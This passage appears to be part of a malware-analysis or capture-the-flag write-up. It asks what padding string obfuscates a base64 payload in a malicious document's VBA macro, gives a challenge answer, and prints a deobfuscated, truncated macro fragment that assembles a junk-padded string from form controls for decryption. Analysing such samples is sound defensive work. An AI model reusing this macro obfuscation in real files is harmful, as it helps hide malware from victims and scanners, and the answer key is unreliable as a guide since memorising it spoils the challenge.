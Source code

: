 ![alt text](image/34.PNG)

> Answer : roubhaol

#### This document contains an obfuscated base64 encoded string; what value is used to pad (or obfuscate) this string?

<details><summary>
VBA code
</summary></details>

- I use chatgpt to make the code more readable
- This is the code after editing
```
Rem Attribute VBA_ModuleType=VBAModule
Option VBASupport 1

Function generateObject()
    chrValue = Chr(controlObject.Zoom + Int(5 * 3))
    Dim counter1 As Integer
    counter1 = 6
    Do While counter1 < 6 + 2
        counter1 = counter1 + 5: DoEvents
    Loop

    encryptedString = "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq" & chrValue & _
                      "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq" & controlObject.value & _
                      "2342772g3&*gs7712ffvs626fq" & controlObject.joefwoefcheaw & _
                      "2342772g3&*gs7712ffvs626fq" & chrValue & _
                      "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq:w2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq" & _
                      "2342772g3&*gs7712ffvs626fq322342772g3&*gs7712ffvs626fq_2342772g3&*gs7712ffvs626fq" & controlObject.joefwoefcheaw & _
                      "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq" & controlObject.joefwoefcheaw & _
                      "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq"

    Dim modifiedString As String
    modifiedString = Replace$("NrsGblssw", "NrsGbl", "jeSyf")
    decryptedString = decryptString(encryptedString)
    
    Dim objectInstance As Variant
```